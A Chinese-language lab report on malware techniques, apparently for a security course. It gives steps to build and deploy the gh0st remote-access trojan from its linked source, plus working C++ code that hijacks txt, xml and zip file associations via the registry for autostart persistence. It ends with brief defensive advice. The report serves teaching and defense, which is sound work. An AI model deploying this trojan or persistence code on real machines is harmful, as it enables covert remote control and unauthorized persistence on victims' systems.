# 恶意代码相关技术与防范

病毒、木马、勒索软件等恶意代码层出不穷，已经严重威胁到人们物理空间和网络空间中的正常活动。熟悉恶意代码常用的技术、"知己知彼"，才能更好地防范恶意代码的侵害。

实验目的：本实验通过学习恶意代码生成、植入操作，以及自启动技术，了解恶意代码的设计原理，进而思考对恶意代码的预防和查杀方法。

实验内容：木马生成、自启动技术

实验环境：Windows 桌面系统，Visual Studio 6.0 及以上版本，gh0st，HaoZip 软件

参与作者：[lanpesk](https://lanpesk.github.io/)、[对酒当歌](https://blog.csdn.net/youyouwoxi)

# 实验步骤

## 1.木马生成


打开 gh0st.exe，切换到 settings 选项卡，按照图标识的顺序，设置 gh0st 控制端和木马参数。其中，监听端口是 gh0st 控制端等待 gh0st 木马上线时所监听的端口号；上线特征码中的上线主机和端口则是 gh0st 木马运行时 将要连接的 gh0st 控制端所在的主机和端口。 



设置完成后，拷贝上线字串，然后切换至 build 选项卡，将拷贝的上线字串填入域名上线字串中，并按照图 9-1(b)标识的顺序设置参数、生成木马。




### 源码编译

[gh0st源代码](https://github.com/iGh0st/gh0st3.6_src)：https://github.com/iGh0st/gh0st3.6_src

使用VS打开源码文件。



一共三个工程，从svhost、install、ghost依次进行编译。

即可得到对应的应用程序。




默认生成。

## 2 .木马植入和操作

将生成的木马文件拷贝到目标主机，使用管理员权限运行，然后观察 gh0st 

控制端 connections 选项卡中的木马上线情况。 

gh0st 的实现的功能较为全面，如图 9-2 所示，例如，文件管理、屏幕控 

制、键盘记录、远程中断控制等。使用时选中要操作的上线主机，通过右键菜

单打开相应功能。



目标主机运行木马程序后，控制端这边能看到上线情况，还能对目标主机进行远程操作：



## 3、自启动技术

自启动技术能够保证木马等恶意软件常驻内存中，随时响应控制端的操作命令，常用的自启动方式有注册表、系统服务、关联文件打开方式等。本实验通过关联 txt 文件打开方式，实现程序自启动，以此理解木马的自启动功能。

1.  劫持 txt 文件打开方式的代码

```cpp
#include<windows.h>

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("%s\\notepad.exe"), strDir);
	GetCurrentDirectory(260, strDir);

	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);
	return 0;
}
```

报错信息对照：

`C2664	“HINSTANCE ShellExecuteW( 无法将参数 4 从“LPSTR”转换为“LPCWSTR”`，这是因为因为代码没有按可编译为UNICODE版本的方式写，而VS2005之后版本默认是UNICODE编码的。`项目->属性->高级->字符集`：改为“`使用多字节字符集`”即可。

`LNK2019	无法解析的外部符号 _main，函数 "int __cdecl invoke_main(void)" (?invoke_main@@YAHXZ) 中引用了该符号\MSVCRTD.lib(exe_main.obj)	1	`项目—>属性—>预处理器：CONSOLE改为WINDOWS。连接器-系统-子系统改为窗口WINDOWS

`无法启动此程序因为计算机中丢失VCRUNTIME140D.dll。试重新安装该程序以解决此问题。` 属性—>C/C++—>代码生成—>右侧的 运行库 —>“`多线程 (/MT)`”


2.  修改注册表项

txt 文本文件打开方式在注册表项

`HKEY_CLASSES_ROOT\txtfile\shell\open\command` 中设置，其默认值为`%SystemRoot%\system32\NOTEPAD.EXE %1`，是使用系统自带的记事本程序打开。那么`C:\Users\skprimin\Desktop\JieChi.exe %1`便应该是使用我们指定的程序打开

```
C:\Users\skprimin\Desktop\JieChi.exe %1
```



通过"Win+R"快捷键打开运行窗口，输入"regedit"打开注册表编辑器，定位到上述注册表项，然后将值修改为第（1）步骤中所生成的可执行文件路径。

打开任意.txt 扩展名的文本文件，观察执行结果。然后把代码中注释放开， 生成新的可执行文件，再次打开文本文件，观察执行结果。

先是会弹窗，确定后能够正常显示内容。





3.  编程完善

第（2）步为手动修改注册表，实际应用的木马是通过系统提供的 API 函数修改注册表项。因此，在第（1）步的代码中添加修改注册表、实现篡改 txt 文本文件打开方式的代码，如下图所示。

```cpp
int ModifyRegKey()
{
	HKEY hKey = NULL;
	if (RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("txtfile\\shell\\open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS)
		return 1;

	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS)
		nRet = 1;
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

```

#### 其它类型文件

##### xml

> 在手动修改注册表的基础上，修改为篡改其他类型文件的打开方式，如 word 文档等，实现木马自启动。

我们在注册表中查看，我们发现xml格式文档不错，看起来很勇。



```cpp
#include<windows.h>

int ModifyRegKey()
{
	HKEY hKey = NULL;
	RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("xmlfile\\shell\\Open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS;
	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS){
		nRet = 1;
		MessageBox(NULL, strPath, TEXT("notice"), MB_OK);
	}
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	int ret = ModifyRegKey();
	
	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("C:\\Program Files\\Internet Explorer\\iexplore.exe"), strDir);
	GetCurrentDirectory(260, strDir);
	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);
	return 0;
}
```

然后我们发现这个xml真的逊



但发现还是能用的。



最终也打开了文件



##### zip

本次实验篡改的是以.zip为后缀的文件的打开方式，即劫持WinRAR程序。代码如下：

```cpp
#include <windows.h>
int ModifyRegKey()
{
    HKEY hKey = NULL;
    if (RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("WinRAR.ZIP\\shell\\open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS)
        return 1;
    int nRet = 0;
    TCHAR strPath[260] = {0};
    GetModuleFileName(NULL, strPath, 260);
    wsprintf(strPath, TEXT("%s %%1"), strPath);
    if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS)
        nRet = 1;
    else
        nRet = 0;
    RegCloseKey(hKey);
    return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    int ret = ModifyRegKey();

    TCHAR strDir[260] = {0};
    TCHAR strPath[260] = {0};

    // GetSystemDirectory(strDir,260);
    wsprintf(strPath, TEXT("C:\\Program Files\\WinRAR\\WinRAR.exe"));
    GetCurrentDirectory(260, strDir);

    MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
    HWND hDesk = GetDesktopWindow();
    ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);
    return 0;
}

```

运行上述程序后，双击打开任意.zip文件，弹出如下弹窗：



说明启动方式修改成功，而且原本程序WinRAR也能正常启动：



# 思考与总结

1.  除了使用 ShellExecute 还有哪些启动原本程序的方法？

- ShellExecute函数可以简单方便地打开磁盘文件和Internet文件，甚至是桌面和URL快捷方式（ .ink或 .url）。其通过解析系统注册表HKEY_CLASSES_ROOT中所有的内容，判断启动那一个执行程序，并且启动一个新的实例或使用DDE将文件名连到一打开的实例。然后，ShellExecute 返回打开文件的应用的实例句柄。
- 与其师出同门的ShellExecuteEx搭配SHELLEXECUTEINFO使用
- `WinExec()`、`system`和`CreateProcess()`

  这些函数使用方法如下：

```cpp

#include <windows.h>
int main()
{
    // 3
    STARTUPINFO StartInfo;
    PROCESS_INFORMATION pinfo;
    memset(&StartInfo, 0, sizeof(STARTUPINFO));
    StartInfo.cb = sizeof(STARTUPINFO);
    CreateProcess("C:\\Users\\SKPrimin\\Desktop\\TraceMe.exe", NULL, NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &StartInfo, &pinfo);

    // 0
    ShellExecute(NULL, "open", "C:\\Users\\SKPrimin\\Desktop\\TraceMe.exe", NULL, NULL, SW_SHOW);

    // 1
    WinExec("C:\\Users\\SKPrimin\\Desktop\\TraceMe.exe", SW_SHOW);

    // 2
    system("C:\\Users\\SKPrimin\\Desktop\\TraceMe.exe");

    return 0;
}

```


2. 如何防范使用上述技术的恶意代码？

- 关闭闲置和有潜在危险的端口，不使用不明来路的代码，防后门。

- 锁定注册表，防止别的程序恶意修改。
- 时时监控端口及注册表，预防被偷偷修改。


- 可以通过修改组策略防止程序修改注册表项：


